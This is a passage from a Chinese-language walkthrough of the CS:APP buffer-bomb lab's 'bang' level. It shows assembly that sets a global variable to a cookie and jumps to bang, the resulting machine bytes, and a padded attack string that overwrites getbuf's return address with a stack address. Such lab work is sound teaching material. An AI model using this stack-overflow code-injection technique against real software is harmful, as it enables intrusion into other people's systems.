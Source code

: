 故应将 getbuf 栈帧返回地址处覆写为 88 31 68 55.

### 获取 `global_value` 地址, 利用汇编攻击指令将其修改为 cookie 值

键入 make dump , 利用 vim 编辑器在 bufbump.asm 中搜索 `global_value`, 发现其位于 .bss 节,地址为 0x0804c218.
可编写如下指令改变 `global_value` 值:

```asm
movl $0x6898ac90, 0x0804c218
```

可将 `global_value` 值修改为 cookie 值.

### 利用汇编攻击指令跳转至 bang 函数

同样地, 键入 make dump, 利用 vim 编辑器在 bufbump.asm 中搜索 `bang`, 其地址为 0x08048d05.

```asm
pushl $0x08048d05
ret
```

可跳转至 bang 函数处

### 生成 bang 攻击字符串

键入 $ vim attack.s, 编写汇编攻击指令

```asm
movl $0x6898ac90, 0x0804c218
pushl $0x08048d05
ret
```

键入 $ make asm, 将汇编指令编译成重定位目标文件(attack.o), 再将其反汇编成带机器指令码的汇编指令(attack.asm), 查看 attack.asm 可得

```asm
c7 05 18 c2 04 08 90    movl   $0x6898ac90,0x804c218
ac 98 68
68 05 8d 04 08          push   $0x8048d05
c3                      ret
```

故,可得攻击指令机器字节码为 c7 05 18 c2 04 08 90 ac 98 68 68 05 8d 04 08 c3.

### bang 最终攻击序列

```asm
c7 05 18 c2
04 08 90 ac
98 68 68 05
8d 04 08 c3
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
88 31 68 55
```

